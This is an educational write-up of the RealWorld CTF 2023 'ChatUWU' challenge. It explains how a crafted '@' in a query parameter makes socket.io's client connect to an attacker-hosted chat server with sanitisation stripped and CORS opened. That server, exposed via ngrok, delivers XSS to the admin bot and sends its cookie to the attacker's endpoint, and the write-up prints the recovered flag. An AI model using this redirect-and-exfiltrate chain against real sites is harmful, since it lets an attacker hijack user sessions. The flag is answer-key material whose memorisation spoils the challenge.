

# Overview

This is the ChatUWU web challenge from RealWorld CTF 2023.

The challenge link connects you to a chat room.  The XSS Bot link allows you to submit a link that the admin bot will visit.  We want their cookie.

**Note**: This is a writeup purposefully aimed at a non-expert audience.  Warning that if you are an expert, all of these details may seem very tedious. I assume you are generally familiar with:

- javascript
- npm
- regular expressions
- Chrome dev tools

# Details

We are provided source:


This uses an npm library called `socket.io`.

The relevant client code is here:

```javascript
    function reset() {
        location.href = `?nickname=guest${String(Math.random()).substr(-4)}&room=textContent`;
    }

    let query = new URLSearchParams(location.search),
        nickname = query.get('nickname'),
        room = query.get('room');
    if (!nickname || !room) {
        reset();
    }
    for (let k of query.keys()) {
        if (!['nickname', 'room'].includes(k)) {
            reset();
        }
    }
    document.title += ' - ' + room;
    let socket = io(`/${location.search}`),
        messages = document.getElementById('messages'),
        form = document.getElementById('form'),
        input = document.getElementById('input');

    form.addEventListener('submit', function (e) {
        e.preventDefault();
        if (input.value) {
            socket.emit('msg', {from: nickname, text: input.value});
            input.value = '';
        }
    });

    socket.on('msg', function (msg) {
        let item = document.createElement('li'),
            msgtext = `[${new Date().toLocaleTimeString()}] ${msg.from}: ${msg.text}`;
        room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext : item.textContent = msgtext;
        messages.appendChild(item);
        window.scrollTo(0, document.body.scrollHeight);
    });

```

The server code is minimal:

```javascript
const app = require('express')();
const http = require('http').Server(app);
const io = require('socket.io')(http);
const DOMPurify = require('isomorphic-dompurify');

const hostname = process.env.HOSTNAME || '0.0.0.0';
const port = process.env.PORT || 8000;
const rooms = ['textContent', 'DOMPurify'];

app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

io.on('connection', (socket) => {
    let {nickname, room} = socket.handshake.query;
    if (!rooms.includes(room)) {
        socket.emit('error', 'the room does not exist');
        socket.disconnect(true);
        return;
    }
    socket.join(room);
    io.to(room).emit('msg', {
        from: 'system',
        // text: `${nickname} has joined the room`
        text: 'a new user has joined the room'
    });
    socket.on('msg', msg => {
        msg.from = String(msg.from).substr(0, 16)
        msg.text = String(msg.text).substr(0, 140)
        if (room === 'DOMPurify') {
            io.to(room).emit('msg', {
                from: DOMPurify.sanitize(msg.from),
                text: DOMPurify.sanitize(msg.text),
                isHtml: true
            });
        } else {
            io.to(room).emit('msg', {
                from: msg.from,
                text: msg.text,
                isHtml: false
            });
        }
    });
});

http.listen(port, hostname, () => {
    console.log(`ChatUWU server running at http://${hostname}:${port}/`);
});
```


When you connect to the chat room server, you are redirected to a link that sets the `room` and `nickname` query parameters.  When you post a message, the server receives it and does one of two things depending on which room you are in.

```javascript
        if (room === 'DOMPurify') {
            io.to(room).emit('msg', {
                from: DOMPurify.sanitize(msg.from),
                text: DOMPurify.sanitize(msg.text),
                isHtml: true
            });
        } else {
            io.to(room).emit('msg', {
                from: msg.from,
                text: msg.text,
                isHtml: false
            });
        }
```

This broadcasts your message to all clients attached to your room.

This client code then inserts it to make it visible:

```
    socket.on('msg', function (msg) {
        let item = document.createElement('li'),
            msgtext = `[${new Date().toLocaleTimeString()}] ${msg.from}: ${msg.text}`;
        room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext : item.textContent = msgtext;
        messages.appendChild(item);
        window.scrollTo(0, document.body.scrollHeight);
    });
```

As you can see, the two possible rooms are:

- textContent
- DOMPurify

You start out in `textContent` by default but can switch to `DOMPurify` by editing your room query parameter.

On the server, if the room is `DOMPurify`, it will call `sanitize()` on your message and also set the `isHtml` flag to `true`. The other room gets no sanitization and `isHtml` is `false`.

On the client, if the incoming message is tagged with `isHtml` as `true` then it gets into `item.innterHTML`.  Otherwise, it gets into `item.textContent`.

As you may know, in general, when text with HTML tags is assigned to `innerHTML`, the tags are honored.  On the contrary, any such text assigned to `textContent` will **not** honor the tags.

So, XSS is (normally) possible with `innerHtml` but never with `textContent`.

The good news is we can switch to the `DOMPurify` room and send a text message that gets into other client's browsers using `innerHtml`.  The bad news is the server calls `sanitize()` on our message which filters all our attempts at XSS.  There are no known bugs in DOMPurify at the moment.

# Contemplation

I studied the code for a long while.  I didn't see any sneaky way to bypass the call to `sanitize()`.

While attached to the chat room, you could see other contestants were submitting payloads with attempts at XSS.

Indeed, if someone actually achieved this **while** I was attached, their attack would run in **my** browser and I'd be able to see it!  I had Burp Proxy running for quite a while and studied it to see any evidence of such an attack.  I didn't see any. 

It makes sense that I didn't see any because, if I had, I could then see how they did it and solve the challenge myself by copying their technique.  If that were possible, then the challenge would not be well-designed since you'd essentially be able to cheat by copying others.

This, along with the challenge claim that XSS is not possible on their server, convinced me that all these attempts were in vain.

Another note worth sharing is that the XSS bot only accepts links directly to the chat room.

## Dead End Idea

Given the above, I was stumped and started down the weird road of trying URLs like these:

http://47.254.28.30:58000/socket.io/

```javascript
{"code":0,"message":"Transport unknown"}
```


http://47.254.28.30:58000/socket.io/?transport=polling

```javascript
{"code":5,"message":"Unsupported protocol version"}
```


http://47.254.28.30:58000/socket.io/?transport=polling&EIO=4

```json
0{"sid":"VRBeygsEqR_R1s6WAAzT","upgrades":["websocket"],"pingInterval":25000,"pingTimeout":20000,"maxPayload":1000000}
```


You might wonder where did I first see the `/socket.io` path?

The `index.html` file downloads `socket.io.js` like this:

```html
<script src="/socket.io/socket.io.js"></script>
```

The server code uses the `socket.io` library and "injects" these `/socket.io` behaviors.

The general idea in my mind was to see if *some* URL using `/socket/io/<something>` could somehow surface a "reflected XSS" attack where some of my input comes back as an html page without escaping it properly.  If so, I could submit it to the XSS bot and steal their cookie.

That turned out to be a dead end.  I'm glad I tried it but, at the end of the day, it makes sense I could not achieve XSS here since this would've been a vulnerability in `socket.io` itself and there are no known vulns at the time.

## Promising Idea

After a lot of time, I regrouped and studied the code again.  This time, the following line of client code caught my eye:

```javascript
let socket = io(`/${location.search}`)
```

In a URL like 

http://47.254.28.30:58000/?nickname=guest9954&room=textContent

`location.search` would be this string: `?nickname=guest9954&room=textContent`

That means we can control what is sent into the `io()` function (except that `/?` will always be the first two chars).

On the server, I could tell that these search parameters were being read like this:

```javascript
let {nickname, room} = socket.handshake.query;
```

It was time to read more about the `io()` function.

### Research

I found my way to this page:

https://socket.io/docs/v3/client-initialization/

and this caught my eye:


Neither of these examples "look" like our example where we're sending in a string like `/?nickname=guest9954&room=textContent`

Recall the code looks like:

```javascript
let socket = io(`/${location.search}`)
```

and so the first two characters are going to be `/?` but we have control over the rest.

At this point, I decided to start trying weird query strings.  Here's an interesting one:

`http://47.254.28.30:58000/?nickname=one[]two&room=textContent`

Notice the `[]` in the `nickname` value.

When I tried this, notice what the dev tools Network tab in Chrome shows:


Notice it is trying to visit `7.254.28.30` as if it somehow "lost" the leading `4`!

That's weird.  It feels like an odd behavior.

This is what first gave me the inkling that there might be other odd behaviors inside the `io()` function that could cause unexpected behavior.

Let's go study the implementation.  This is a little hard to do if you are not familiar with the tooling.

The first thing to do is go get the source of `socket.io.js` by visiting: http://47.254.28.30:58000/socket.io/socket.io.js

This is quite a large file so I won't include it here.  Alternatively, if you run `npm install` in the provided `src` folder (where the `package.json` file lives), you'll then be able to find it here:

`src/node_modules/socket.io/client-dist/socket.io.js`

If you casually study this file, there is no "obvious" `io()` function lying around. So, how can we see what is in there?

One way is to use the Chrome dev tools `Sources` tab and set a breakpoint on the call to the `io()` function.

Once yo get to the page source, you click in the left margin to set the breakpoint:


Now you can refresh the page and the breakpoint will "trip":


You can then step into the function by clicking the down arrow button (shown in a red box above).

When you do that, you see this:


Notice we are (somehow) "inside" the `lookup()` function.  Let's not worry about how that happened.

Armed with that, you can go back to the raw source file and go find that function and start studying it and the functions it calls.

It starts like this:

```javascript
  function lookup(uri, opts) {
    if (_typeof(uri) === "object") {
      opts = uri;
      uri = undefined;
    }

    opts = opts || {};
    var parsed = url(uri, opts.path || "/socket.io");
    ...
```

Recall that the `uri` parameter will be something like; `/?nickname=guest9954&room=textContent`

Let's study the `url()` function it calls.  The relevant part is this:

```javascript
  function url(uri) {
    var path = arguments.length > 1 && arguments[1] !== undefined ? arguments[1] : "";
    var loc = arguments.length > 2 ? arguments[2] : undefined;
    var obj = uri; // default to window.location

    loc = loc || typeof location !== "undefined" && location;
    if (null == uri) uri = loc.protocol + "//" + loc.host; // relative path support

    if (typeof uri === "string") {
      if ("/" === uri.charAt(0)) {
        if ("/" === uri.charAt(1)) {
          uri = loc.protocol + uri;
        } else {
          uri = loc.host + uri;
        }
      }

      if (!/^(https?|wss?):\/\//.test(uri)) {
        if ("undefined" !== typeof loc) {
          uri = loc.protocol + "//" + uri;
        } else {
          uri = "https://" + uri;
        }
      } // parse


      obj = parse(uri);
    } // make sure we treat `localhost:80` and `localhost` equally

```

Notice how it is checking if `uri` starts with `//`.  Well, we know ours will always start with `/?` so we'll end up in here:

```javac
        } else {
          uri = loc.host + uri;
        }
```

At that point `uri` will look something like the original browser URL:

`http://47.254.28.30:58000/?nickname=guest1912&room=textContent`

Then that whole thing is sent to the `parse()` function.  This is where it gets interesting.  Here's the relevant code:

```javascript
  var re = /^(?:(?![^:@]+:[^:@\/]*@)(http|https|ws|wss):\/\/)?((?:(([^:@]*)(?::([^:@]*))?)?@)?((?:[a-f0-9]{0,4}:){2,7}[a-f0-9]{0,4}|[^:\/?#]*)(?::(\d*))?)(((\/(?:[^?#](?![^?#\/]*\.[^?#\/.]+(?:[?#]|$)))*\/?)?([^?#\/]*))(?:\?([^#]*))?(?:#(.*))?)/;
  var parts = ['source', 'protocol', 'authority', 'userInfo', 'user', 'password', 'host', 'port', 'relative', 'path', 'directory', 'file', 'query', 'anchor'];
  function parse(str) {
    var src = str,
        b = str.indexOf('['),
        e = str.indexOf(']');

    if (b != -1 && e != -1) {
      str = str.substring(0, b) + str.substring(b, e).replace(/:/g, ';') + str.substring(e, str.length);
    }

    var m = re.exec(str || ''),
        uri = {},
        i = 14;

    while (i--) {
      uri[parts[i]] = m[i] || '';
    }

```

As an aside, notice the code looking for `[` and `]`.  If both chars are present, the code assumes they come in that order and replaces any `:` symbols with `;` symbols (for some reason).  Of course, they might not come in that order.  If they come in the other order, `e` will be < `b` in `str.substring(b, e)`.  This will end up building an abomination since (fun fact) `substring(b, e)` doesn't care whether `b` < `e`.  You can call it with the args in either order and it returns the same result either way!  So if `]` comes before `[`, it would end up repeating part of the string unexpectedly.  This is not relevant to the solve, but it is an example of the kind of odd behavior you should look for when studying code.

Now notice the **monster** regular expression.  The code runs this expression against the `str` variable and then sets a bunch of named properties (from the `parts[]` array) from the "match groups" found by `re.exec()`.

If you are like me, regular expressions are *much* easier to write than to read.

In my head, I reviewed the general pattern of an http URL. Some people don't know about some of the more obscure syntax here.

Here's a great explanation from: http://www.tcpipguide.com/free/diagrams/urlsyntax.png


Notice the regular expression seems to care a lot about `:` and `@`.  We can see above that these can be used to delimit the username and password in a URL.  In practice, nobody actually types URLs with passwords in them.   Right!?

I tried crafting query strings with these characters.  Watch what happens for this URL;

`http://47.254.28.30:58000/?nickname=guest@1912&room=textContent`

Notice I put a `@` character in the `nickname`!

This is what the dev tools `Network` tab shows:


It is trying to go to a Domain that starts with `1912`.  That's weird, right?

This is kind of like my `[]` behavior where it dropped out the first character of the domain.  It is just a different odd behavior.

Where did it get `1912` from?  These are the characters right after my `@` symbol in the nickname!

Remember in the URL syntax diagram, *if* there is an `@` symbol, the host name always comes right after it.  This is the spirit of what is at play here.

Given that we can trick it into visiting some other host for the Chat Room, how do we leverage that?

**Rough Plan**: Let's host our own chat room server and trick the XSS bot into visiting that!

First, some minor bookkeeping to clear up.  Notice how the domain also has the word `room` in it.  We don't want that.  We'll address that by putting `room` as the first query string and `nickname` as the second.  Here's an example:

`http://47.254.28.30:58000/?room=textContent&nickname=sam@my.fake-server`


# Hosting a Chat Room

Let's use the source code provided to host our own chat room.

1. cd into the `src` folder
2. run: `npm install` if you haven't already
3. run: `node index.js`

You should see something like this:

```bash
src$ node index.js
ChatUWU server running at http://0.0.0.0:8000/
```

To test it you can visit http://localhost:8000/

You should see it redirect to something like: http://localhost:8000/?nickname=guest2474&room=textContent

and then see something like this entry in the chat room: `[7:06:49 PM] system: a new user has joined the room`

You can then post messages... to yourself.

## Tweaking the Chat Room

You can stop the Chat Room with `Control+C`.

Let's make some small changes to the chat room that will be to our advantage later.

Rework the `io.on()` handler to be like this:

```javascript
io.on('connection', (socket) => {
    let room = 'DOMPurify'
    socket.join(room);
    io.to(room).emit('msg', {
        from: 'system',
        text: 'a new user has joined the room'
    });
    socket.on('msg', msg => {
        io.to(room).emit('msg', {
            from: msg.from,
            text: msg.text ,
            isHtml: true
        });
    });
});
```

Notice we made these changes:

- Removed the parsing of the query string and forced the room to be `DOMPurify`
- Removed the `substr()` calls on `msg.from` and `msg.text` so we have no length limits
- Removed the calls to `DOMPurify.sanitize()`

Back when we read about the `io()` function here: https://socket.io/docs/v3/client-initialization/

It talks about what to do if you are hosting on a different domain.  It gives a link for enabling Cross-Origin Resource Sharing (CORS).

https://socket.io/docs/v3/handling-cors/

Following the advice there let's change this:

```javascript
const io = require('socket.io')(http);
```

to this:

```javascript
const io = require("socket.io")(http, {
  cors: {
    origin: "*",
    methods: ["GET", "POST"]
  }
});
```

You normally wouldn't use `*` but it is easiest for us in this case.

If you are not familar with CORS, you can google and learn all about it.  Basically this configuration will allow other domains to make requests to our Chat Room and read our replies. Normally browsers cannot read such replies of cross-domain requests since that violates the Same Origin Policy (SOP).

Our local `index.js` should look like this:

```javascript
const app = require('express')();
const http = require('http').Server(app);
const io = require("socket.io")(http, {
  cors: {
    origin: "*",
    methods: ["GET", "POST"]
  }
});
const DOMPurify = require('isomorphic-dompurify');

const hostname = process.env.HOSTNAME || '0.0.0.0';
const port = process.env.PORT || 8000;
const rooms = ['textContent', 'DOMPurify'];


app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

io.on('connection', (socket) => {
    let room = 'DOMPurify'
    socket.join(room);
    io.to(room).emit('msg', {
        from: 'system',
        text: 'a new user has joined the room'
    });
    socket.on('msg', msg => {
        io.to(room).emit('msg', {
            from: msg.from,
            text: msg.text ,
            isHtml: true
        });
    });
});

http.listen(port, hostname, () => {
    console.log(`ChatUWU server running at http://${hostname}:${port}/`);
});
```


Armed with these changes, lets fire up the app again and see if we can achieve XSS against ourself (before worrying about the XSS Bot).

This time, let's go to the `DOMPurify` room like this:

http://localhost:8000/?nickname=guest1921&room=DOMPurify

Let's try posting this message:

```
<script>alert(42)</script>
```

Hmmm, nothing happened.

That is actually expected.  Browsers have this rule where if a `<script>` is added via client code, it will not actually run the script.

It turns out that is not much of a hurdle.  The standard way around this is to submit something like this:

```

```

It works!


Here the browser is trying to load an img from the `x` resource, doesn't find it, then calls the `onerror` handler.

We now know that if a browser visits our Chat Room and we later submit an XSS attack, our code will run in *their* browser.

# Exposing Our Chat Room

How can we expose our local Chat Room to the Internet so that the XSS Bot can visit it?

One way would be to configure your home router to have an open port and to forward that traffic to your computer on port 8000.

However, I don't normally do it that way.

Instead I like to use a free tool called `ngrok`

You can sign up for a free account here: https://ngrok.com/

Then you follow their instructions to download their utility (called `ngrok`) and install it locally and register it to your account.

Assuming your chat room is still running, you can run ngrok like this:

```bash
ngrok http http://localhost:8000
```

If all goes well, you'll see something like:

```bash
ngrok by @inconshreveable                                                                                                                                                                                         (Ctrl+C to quit)

Session Status                online
Account                       ?????? (Plan: Free)
Version                       2.3.40
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://e986-76-112-103-115.ngrok.io -> http://localhost:8000
Forwarding                    https://e986-76-112-103-115.ngrok.io -> http://localhost:8000

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

Notice a few things:

- You can run http://127.0.0.1:4040 locally and get a web UI to monitor calls to your server
- Your local server is now exposed as `http://e986-76-112-103-115.ngrok.io` and any traffic to that will be tunneled to your localhost:8000 Chat Room server

First bring up the monitoring page: http://localhost:4040/


Now let's visit our Chat Room (using the DOMPurify room) using the public Internet:

https://e986-76-112-103-115.ngrok.io/?nickname=guest6642&room=DOMPurify

It works!


Before we ask the XSS Bot to visit our chat room, let's ready our payload.

Here is at least one easy way to exfiltrate a browser's cookies:

```

```

`btoa()` is a function that encodes the parameter into base 64.

Armed with that, let's do a test run.

While we have the above browser tab open, in a new browser tab, visit the CTF Chat Room using a URL like this:

http://47.254.28.30:58000/?room=DOMPurify&nickname=bot@e986-76-112-103-115.ngrok.io

Notice we're using the `@` trick so the browser will end up talking to *our* Chat Room instead of the CTF's Chat Room.

Back in the **first** browser, tab, submit our XSS attack we prepared above.


When we do this, notice the **second** browser tab shows this:


Notice the broken image (which is what we expected).

If we go back to our monitoring page: http://localhost:4040/

We see:


This proves we achieved XSS.  Our browser had no cookie so the `prize` query parameter was empty.

Now let's do it for real.

# End Game

Bring up the XSS Bot page and submit this URL:

```
http://47.254.28.30:58000/?room=DOMPurify&nickname=bot@e986-76-112-103-115.ngrok.io
```


After submitting, you should see the page say:

```
[1/12/2023, 8:01:17 PM] Received. Admin will visit your URL soon.
```

Now, quickly go back to your browser tab for this URL:

https://e986-76-112-103-115.ngrok.io/?nickname=guest6642&room=DOMPurify

You "should" see that a new user has joined.  This will be the XSS Bot!


From this page, quickly send the payload:

```

```

The XSS Bot should receive this and run our exfiltration script.

We can revisit our monitor page to see what happened.  Look for requests to `/data` from some IP address other than yours:


We got it!

Copy the `prize`  to the clipboard and let's decode it:

```
echo -n ZmxhZz1yd2N0ZnsxZTU0MmU2NWU4MjQwZjlkNjBhYjQxODYyNzc4YTFiNDA4ZDk3YWMyfQ== |base64 -D
flag=rwctf{1e542e65e8240f9d60ab41862778a1b408d97ac2}
```


Thanks to the RealWorld CTF organizers for a great challenge!


# Gotchas

In my use of `btoa()` to base 64 in this challenge, I'm reminded of a past challenge where I was exfiltrating a long string (maybe it was binary?).  In that case btoa() ended up returning a string with the `+` symbol in it.

That's perfectly legal since base 64 consists of `A-Z` `a-z` and `0-9` along with `+` and `/`.

If you get unlucky for this to happen then that is bad since the query string interprets `+` as a space.

When the `ngrok` monitor shows your request, it will render the `+` and spaces and so you'll have trouble decoding it.


If this happens, just switch to the `Raw` tab:

